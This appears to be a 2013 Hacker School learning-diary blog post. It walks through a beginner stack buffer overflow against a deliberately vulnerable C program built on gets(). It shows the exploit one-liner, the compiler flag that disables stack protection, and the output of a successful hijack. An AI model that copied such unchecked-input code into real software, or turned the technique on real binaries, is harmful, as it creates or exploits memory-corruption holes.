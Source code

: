 ```yaml
---
categories: ["hackerschool"]
comments: true
date: 2013-10-28T00:00:00Z
title: 'Day 17: How to write a buffer overflow exploit'
url: /blog/2013/10/28/day-17-buffer-overflows/
---
```


I've declared this week to be the week of networks & security.

Today I started reading the excellent book 
[Hacking: The Art of Exploitation](http://nostarch.com/hacking2.htm)
by Jon Erickson. I learned a lot about how different parts and how MAC address
spoofing actually works.

But! Buffer overflows! I worked with Travis and Daphne today and we made one
work!

Okay. Here is a program with a vulnerability, made extra easy to exploit:

~~~
#include <stdio.h>
#include <string.h>

char password[] = "super_secret";

void foo(void) {
  printf("You hacked me! Here is the secret password: %s\n", password);
  fflush(stdout);
}

int main(int argc, char *argv[]) {
  char buf[4];

  printf("Here is the address of foo: %p\nWhat is your hacking text? ", foo);
  fflush(stdout);

  gets(buf);

  printf("You entered: %s\n", buf);
  fflush(stdout);

  return 0;
}
~~~

The idea is that we're going to put a string, then make the program jump to
the address of `foo` instead of returning. I couldn't get this to work on my
64-bit machine for some reason, so I told it to be 32-bit instead and it
worked. <s>If you know why please tell me!</s> <small>(*Edit:* Figured this out! Turns out I
just needed to pad the address with 0s until it was 64 bits and then
experiment with offsets.)</small>

~~~
$ gcc -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x80484b4
What is your hacking text? You entered: aaaa���
*** stack smashing detected ***: ./a.out terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0xf7663eb5]
/lib/i386-linux-gnu/libc.so.6(+0x104e6a)[0xf7663e6a]
./a.out[0x8048561]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xf75784d3]
./a.out[0x8048421]
~~~

Oh look! It turns out that gcc already knows about this exploit and has special built-in protections! We can disable those, though...

~~~
$ gcc -fno-stack-protector -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x8048464
What is your hacking text? You entered: aaaadddd�
You hacked me! Here is the secret password: super_secret
[1]    26357 done                              perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' |
 
       26358 segmentation fault (core dumped)  ./a.out
~~~

BOOM. We win!

What happened here? At the end of the stack, there's the address that the
function needs to jump back to when it returns. Since `gets` doesn't know how
many characters to read into buf, it keeps reading into the stack until the
string is over and writes over that address. We don't know exactly where the
address is, so we keep writing it over and over and over again until it works.

Also! Notice how we had to reverse the order of the memory address to be
`"\x64\x84\x04\x08"` instead of `\x08\x04\x84\x64`. This is because memory is
laid out in a little-endian way. "Little-endian" basically means "backwards".
Intel architectures are always like this. See [wikipedia](http://en.wikipedia.org/wiki/Endianness) for more on endianness. 

<s>There are smarter ways to deal with this issue of not knowing where the end of
the stack is ("NOP sleds"!), but this one is simpler and so it is what we did.</s>

Filippo pointed out to me that NOP sleds are actually something you use in
shellcode when you're not sure where the program execution will start. In this
case I think you actually just have to figure out where the return address is.
I think you can also use gdb or objdump to discover the layout of the stack,
but I don't know how to do that yet.
